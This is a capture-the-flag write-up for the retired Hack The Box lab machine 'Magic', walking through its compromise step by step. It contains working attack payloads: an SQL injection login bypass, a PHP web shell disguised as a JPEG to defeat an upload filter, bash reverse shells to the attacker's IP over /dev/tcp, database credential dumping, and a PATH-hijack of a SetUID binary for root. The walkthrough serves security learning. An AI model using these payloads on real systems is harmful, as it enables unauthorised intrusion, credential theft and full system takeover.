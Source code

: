 # Magic

This is the write-up for the box Magic that got retired at the 22nd August 2020.
My IP address was 10.10.14.10 while I did this.

Let's put this in our hosts file:
```markdown
10.10.10.185    magic.htb
```

## Enumeration

Starting with a Nmap scan:

```
nmap -sC -sV -o nmap/magic.nmap 10.10.10.185
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 06:d4:89:bf:51:f7:fc:0c:f9:08:5e:97:63:64:8d:ca (RSA)
|   256 11:a6:92:98:ce:35:40:c7:29:09:4f:6c:2d:74:aa:66 (ECDSA)
|_  256 71:05:99:1f:a8:1b:14:d6:03:85:53:f8:78:8e:cb:88 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Magic Portfolio
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Checking HTTP (Port 80)

On the website are several images and one link that forwards to a login page on _login.php_.
By testing a basic **SQL Injection** statement in the password parameter, the login works and forwards to _upload.php_:
```
POST /login.php HTTP/1.1
Host: 10.10.10.185
(...)
username=testuser&password='+OR+1%3d1--+-
```
```
# URL decoded SQL Injection statement
' OR 1=1-- -
```

The page _upload.php_ is a feature that allows to upload images.

Creating a PHP shell script _(shell.php)_ and trying to upload it:
```
<?php echo "This is a test string"; system($_REQUEST['cmd']); ?>
```

After uploading, it shows an error message that tells that only JPGs, JPEG and PNG files are allowed.
The first few bytes **(Magic Bytes)** of any JPEG file can be taken and morphed together with _shell.php_ to resemble a JPEG file:
```
head -c 20 5.jpeg > jpeg_magicbytes
```
```
cat jpg_magicbytes shell.php > magic_shell.php.jpeg
```

Now it gets recognized as an image and successfully uploaded and can be found in the _images/uploads_ directory:
```
http://10.10.10.185/images/uploads/magic_shell.php.jpeg?cmd=whoami
```

The parameter takes commands and `whoami` got executed, which proofs command execution.
Lets use this to gain a reverse shell:
```
POST /images/uploads/magic_shell.php.jpeg HTTP/1.1
Host: 10.10.10.185
(...)
cmd=bash -c 'bash -i >& /dev/tcp/10.10.14.10/9001 0>&1'
```

After URL-encoding the command and sending the request, the listener on my IP and port 9001 starts a reverse shell as _www-data_.

## Privilege Escalation

In the directory _/var/www/Magic_ is a file called _db.php5_ which contains credentials for a database:
```
private static $dbName = 'Magic' ;
private static $dbHost = 'localhost' ;
private static $dbUsername = 'theseus';
private static $dbUserPassword = 'iamkingtheseus';
```

The MySQL binary is not installed, but the **mysqldump** command can be used to dump the contents of the database:
```
mysqldump -u theseus -p Magic
```

There is one table called _login_ and in there are credentials for the website login:
```
INSERT INTO `login` VALUES (1,'admin','Th3s3usW4sK1ng');
```

The password is reused for the user _theseus_ on the box and it is possible to switch users:
```
su - theseus
```

### Privilege Escalation to root

After searching for non-default binaries with the **SetUID bit** set, the output does not look too suspicious:
```
find / -type f -perm -4000 2>/dev/null | grep -v snap
```

But when checking the `groups` of the user, there is a group called _users_ and this group owns the binary _/bin/sysinfo_ that has the **SetUID bit** set:
```
find / -group users -ls 2>/dev/null

-rwsr-x---   1 root     users       22040 Oct 21  2019 /bin/sysinfo
```

The binary outputs hardware, CPU, memory and disk information, so it probably executes other Linux commands.
Lets follow the **Syscalls** of the binary and look through the forks, if another command is executed with relative paths:
```
strace /bin/sysinfo 2>strace_sysinfo.txt

grep execve strace_sysinfo.txt
```
```
[pid 18965] execve("/usr/bin/lshw", ["lshw", "-short"],
[pid 18967] execve("/sbin/fdisk", ["fdisk", "-l"],
[pid 18969] execve("/bin/cat", ["cat", "/proc/cpuinfo"],
[pid 18971] execve("/usr/bin/free", ["free", "-h"],
```

All these binaries are not called with the absolute path, so we can choose one of them and create a binary with the same name to inject our own code into it.

Creating a reverse shell script in _/dev/shm_ and call it _free_:
```
#!/bin/bash
bash -c 'bash -i >& /dev/tcp/10.10.14.10/9002 0>&1'
```

> NOTE: It also works to call the script `cat`, `fdisk` or `lshw`.

Making it executable:
```
chmod +x free
```

Changing the **PATH environment** to add _/dev/shm_ at the beginning:
```
export PATH=/dev/shm:$PATH
```

Executing _/bin/sysinfo_:
```
/bin/sysinfo
```

After executing the binary, the `free` command will run from _/dev/shm_ and executes the reverse shell script.
The listener on my IP and port 9002 starts a connections as root!
